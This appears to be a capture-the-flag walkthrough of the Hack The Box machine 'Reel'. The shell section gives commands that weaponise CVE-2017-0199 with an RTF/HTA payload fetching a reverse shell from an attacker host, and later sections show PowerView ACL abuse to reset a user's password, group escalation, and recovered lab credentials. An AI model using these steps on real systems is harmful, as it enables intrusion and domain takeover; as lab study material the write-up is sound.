









# reel


## nmap


PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
49159/tcp open  unknown


## ftp

1.  found 3 files 
2. one of them request for rtf format and it will convert docx and put it in ftp
3. now we need to create a malicious ftp


#### exiftool


-  found potential user on the box

```
nico@megabank.com
```


## shell

```
CVE-2017-0199
```

1.  we can execute malicious hta file from rtf documents
2. first we attach a malicoious link to the rta we will send

```
python2 cve-2017-0199_toolkit.py -M gen -u http://10.10.14.24:8000/shell.hta -t rtf -w shell.rtf -x 0
```



3. then we will generate a malicious hta and host it on the server defined, we will use nishang for this

```
Out-HTA.ps1 -PayloadURL http://10.10.14.24:8000/shell.ps1
```



4. we will host shell.ps1 on our machine and it will be fetched and we will reverse shell as soon we send the mail.




## PrivEsc

1. on users desktop found cred.xml
2. its a xml file that has stored securestring of user tom
3. we can import this xml file to find credentials of user tom

```
$credential - Import-Cli-Xml -Path c:\users\nico\desktop\cred.xml
$credential.GetNetworkCredential().Password
```




#### credential

```
HTB\TOM
1ts-mag1c!!!
```

-  now we can ssh into the box since we know ssh is installed


#### BloodHound



1.  now we analyze it in Blood Hound


#### backup_admins

1. user tom has write owner to cliare
2. claire has permissions to backup_admins group which can be used to read ntds.dit and System hives
3. we will use Powerview to do perform all this as they provide in built functions


```
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-ObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$password = ConvertTo-SecureString 'Passw0rd123!321!' -AsPlainText -Force
Set-DomainUserPassword claire -AccountPassword $password
```

4. we successfully changed password of Claire

```
Claire
Passw0rd123!321!
```




5. now we need to become part of backup_admins group

```
Add-DomainGroupMember -Identity "Backup_Admins" -Members claire
```



6. now claire is part of Backup_Admins group
7. now we can read entire filesystem but we still dont have access to root.txt
8. enumerating backup scripts we find admin password



#### credentials

```
administrator
Cr4ckMeIfYouC4n!
```

